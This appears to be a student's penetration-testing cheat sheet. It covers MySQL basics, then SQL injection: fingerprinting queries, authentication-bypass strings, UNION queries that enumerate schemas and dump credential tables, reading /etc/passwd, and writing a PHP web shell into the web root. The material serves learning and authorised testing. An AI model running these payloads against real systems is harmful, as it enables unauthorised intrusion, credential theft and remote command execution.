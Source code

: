# Basics First!

A basics revise for all that need to see it

## MySQL

Command | Description
--- | --- 
***General***
mysql -u <username> -p | to login to mysql database
mysql -u <username> -h <IP/host_addr> -P < Port > -p | to login to remote mysql database
SHOW DATABASES	| List available databases
USE users |	Switch to database
***Tables***	
CREATE TABLE logins (id INT, ...)	| Add a new table
SHOW TABLES	| List available tables in current database
DESCRIBE logins	| Show table properties and columns
INSERT INTO table_name VALUES (value_1,..)	| Add values to table
INSERT INTO table_name(column2, ...) VALUES (column2_value, ..) |	Add values to specific columns in a table
UPDATE table_name SET column1=newvalue1, ... WHERE <condition> |	Update table values
***Columns***	
SELECT * FROM table_name	| Show all columns in a table
SELECT column1, column2 FROM table_name	| Show specific columns in a table
DROP TABLE logins	| Delete a table
ALTER TABLE logins ADD newColumn INT	| Add new column
ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn	| Rename column
ALTER TABLE logins MODIFY oldColumn DATE	| Change column datatype
ALTER TABLE logins DROP oldColumn	| Delete column
***Output***	
SELECT * FROM logins ORDER BY column_1	| Sort by column
SELECT * FROM logins ORDER BY column_1 DESC	| Sort by column in descending order
SELECT * FROM logins ORDER BY column_1 DESC, id ASC	| Sort by two-columns
SELECT * FROM logins LIMIT 2	| Only show first two results
SELECT * FROM logins LIMIT 1, 2	| Only show first two results starting from index 2
SELECT * FROM table_name WHERE <condition>	| List results that meet a condition
SELECT * FROM logins WHERE username LIKE 'admin%'	| List results where the first name starts similar to a given string
SELECT * FROM logins WHERE username LIKE '%a'	| List results where the last name ends similar to a given string 
SELECT * FROM logins WHERE username LIKE '%dmin%' | To check if a string contains the given substring
SELECT * FROM logins WHERE username LIKE 'T_m' | To find first names which start with the letter T , end with the letter m, and contain any single character between e.g., Tom , Tim  
  
## MySQL Operator Precedence
- Division ( / ), Multiplication ( * ), and Modulus ( % )
- Addition ( + ) and Subtraction ( - )
- Comparison ( =, >, <, <=, >=, !=, LIKE )
- NOT ( ! )
- AND ( && )
- OR ( || )
  
# SQL Fingerprinting
  As an initial guess, if the webserver we see in HTTP responses is Apache or Nginx, it is a good guess that the webserver is running on Linux, so the DBMS is likely MySQL. The same also applies to Microsoft DBMS if the webserver is IIS, so it is likely to be MSSQL. However, this is a far-fetched guess, as many other databases can be used on either operating system or web server. So, there are different queries we can test to fingerprint the type of database we are dealing with.

As for now let us fingerprint MySQL databases. The following queries and their output will tell us that we are dealing with MySQL:

***Payload*** |	***When to Use*** |	***Expected Output*** |	***Wrong Output***
  -- | -- | -- | --
SELECT @@version |	When we have full query output |	MySQL Version 'i.e. 10.3.22-MariaDB-1ubuntu1' |	In MSSQL it returns MSSQL version. Error with other DBMS.
SELECT POW(1,1) |	When we only have numeric output	|  1	| Error with other DBMS
SELECT SLEEP(5)	| Blind/No Output	| Delays page response for 5 seconds and returns 0.	| Will not delay response with other DBMS

# SQL Injections
  
   ***SQLi Discovery***
  
  Before we start subverting the web application's logic and attempting to bypass the authentication, we first have to test whether the login form is vulnerable to SQL injection. To do that, we will try to add one of the below payloads after our username and see if it causes any errors or changes how the page behaves:
  
**Payload** | **URL Encoded**
--- | --- 
' |	%27
" |	%22
\# |	%23
; |	%3B
) |	%29
>Note: In some cases, we may have to use the URL encoded version of the payload. An example of this is when we put our payload directly in the URL 'i.e. HTTP GET request'.
  
**Payload** |	**Description**
 --- | ---
***Auth Bypass***	
admin' or '1'='1	| Basic Auth Bypass
admin')-- -	| Basic Auth Bypass With comments
| ***Auth Bypass Payloads***	
***Union Injection***	
' order by 1-- -	| Detect number of columns using order by
cn' UNION select 1,2,3-- -	| Detect number of columns using Union injection
cn' UNION select 1,@@version,3,4-- -	| Basic Union injection
UNION select username, 2, 3, 4 from passwords-- -	| Union injection for 4 columns
***DB Enumeration***	
SELECT @@version	| Fingerprint MySQL with query output
SELECT SLEEP(5)	| Fingerprint MySQL with no output
cn' UNION select 1,database(),2,3-- -	| Current database name
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -	| List all databases
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -	| List all tables in a specific database
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -	| List all columns in a specific table
cn' UNION select 1, username, password, 4 from dev.credentials-- -	| Dump data from a table in another database
***Privileges***	
cn' UNION SELECT 1, user(), 3, 4-- -	| Find current user
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -	| Find if user has admin privileges
cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE user="root"-- -	| Find if all user privileges
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -	| Find which directories can be accessed through MySQL
***File Injection***	
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -	| Read local file
select 'file written successfully!' into outfile '/var/www/html/proof.txt'	| Write a string to a local file
cn' union select "",'< ?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -	| Write a web shell into the base web directory
  
